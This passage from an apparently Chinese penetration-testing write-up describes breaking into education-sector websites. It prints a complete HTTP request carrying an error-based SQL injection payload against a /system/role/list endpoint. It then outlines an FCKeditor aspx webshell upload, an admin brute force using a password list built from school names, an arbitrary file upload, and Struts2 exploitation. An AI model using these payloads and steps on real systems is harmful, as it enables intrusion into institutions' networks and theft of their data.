 sql注入当时也懒得去尝试，估计也是存在的

/system/role/list

/system/role/export

/system/dept/edit

```php
POST /system/role/list HTTP/1.1 Host: Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Sec-Fetch-Site: same-origin Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 Sec-Fetch-Dest: document Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: JSESSIONID=e9f143b9-3c3d-4acb-96a4-93c7367a98e9 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 75 params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```

## 6、FCKeditor上传文件GetShell

1、扫描目录发现存在FCKeditor目录

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666751266790-5f2d4764-4b13-4631-b1c1-42e0d6d088a7.png)

2、直接找到上传目录

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666751284531-abae4065-7838-4bf5-924f-8d104c2fb223.png)

3、上传aspx木马

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666751504910-d5285488-0339-462b-ada1-1346eaa68abf.png)

成功连接

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666784664171-01d8a4d6-e95b-46af-b8b5-327d54763a7f.png)

## 7、任意文件上传

根据学校名称及域名进行编排密码本，爆破登录admin账号

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666776557415-4feb5ad0-efd9-481f-bed9-319f2b8aad15.png)

上传点任意文件上传GetShell

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666785479063-5b0d697a-e7d0-4f63-8a19-0f8101636156.png)

## 8、S2反序列化漏洞GetShell

1、目标网站存在S2框架

![](https://cdn.jsdelivr.net/gh/cnbysec/cnbysec.github.io/OSS/img/教育行业渗透打点/1666776108230-74b6480c-66a3-43db-b0bd-62246f03e843.png)

2、直接使用工具进行扫描，进而获取权限进行内网渗透
